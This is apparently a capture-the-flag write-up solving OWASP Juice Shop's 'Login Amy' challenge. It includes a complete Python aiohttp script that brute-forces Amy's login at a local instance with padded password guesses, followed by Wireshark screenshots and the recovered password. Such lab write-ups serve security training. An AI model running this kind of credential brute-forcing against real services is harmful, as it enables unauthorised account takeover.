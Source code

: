 # Login Amy

**Difficulty**: :star2::star2::star2:

**Description**: Log in with Amy's original user credentials. (This could take 93.83 billion trillion trillion centuries to brute force, but luckily she did not read the "One Important Final Note")

**Category**: Sensitive Data Exposure

**Tags**: `OSINT`

**Solution**:

So I tried to search for the term "93.83 billion trillion trillion centuries" and found this blog:

![search for term](https://user-images.githubusercontent.com/64480713/180432555-5f5f9426-2f35-41b9-88b6-60016589e658.png)

When I scroll down the blog, I found a note about "One Important Final Note":

![one important final note](https://user-images.githubusercontent.com/64480713/180432728-3187f23d-ad44-4d4a-8573-243d3ca183ce.png)

And I found a snippet of code to brute force Amy's password:

Tested on:

Python: 3.10.4
aiohttp = "3.8.1"

<details>
<summary>Snippet code</summary>

```python
import asyncio

import aiohttp

your_juice_shop_url = "http://localhost:3000{}".format("/rest/user/login")


def build_queue():

    queue = []

    uppercase_letters = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    lowercase_letters = "abcdefghijklmniopqrstuvxyz"
    numbers = "0123456789"

    for up_letter in uppercase_letters:
        for low_letter in lowercase_letters:
            for number in numbers:
                queue.append(f"{up_letter}{number}{low_letter}.....................")
    return queue


async def login_amy(name, async_queue):

    async with aiohttp.ClientSession() as session:
        while not async_queue.empty():
            password = await async_queue.get()
            print(f"Task {name}:\t Trying password: {password}")
            async with session.post(
                your_juice_shop_url,
                json={"email": "amy@juice-sh.op", "password": password},
            ) as response:
                await response.text()


async def main(password_queue):

    async_queue = asyncio.Queue()

    for password in password_queue:
        await async_queue.put(password)

    await asyncio.gather(
        asyncio.create_task(login_amy("One", async_queue)),
        asyncio.create_task(login_amy("Two", async_queue)),
        asyncio.create_task(login_amy("Three", async_queue)),
        asyncio.create_task(login_amy("Four", async_queue)),
        asyncio.create_task(login_amy("Five", async_queue)),
    )

    return False


if __name__ == "__main__":
    password_queue = build_queue()
    asyncio.run(main(password_queue))
```

</details>

Then I use Wireshark to capture packages:

![capture packages](https://user-images.githubusercontent.com/64480713/180433342-eda69500-69dc-4da5-b4b1-108ecc26b03d.png)

As you can see, only one request was responded to with the status `200 OK`:

![success package](https://user-images.githubusercontent.com/64480713/180433562-132d276a-bbb1-43b2-be3f-8d361dd2d631.png)

And it was the response to a request with the password **`K1f.....................`**:

![image](https://user-images.githubusercontent.com/64480713/180433668-4486b246-22b3-47c6-81e7-a3068d03c93f.png)

Finally, I logged in successfully to Amy's account with this information:

![login successfully](https://user-images.githubusercontent.com/64480713/180433905-c5ed4a67-220c-4a0d-b50c-68f4035afdf7.png)



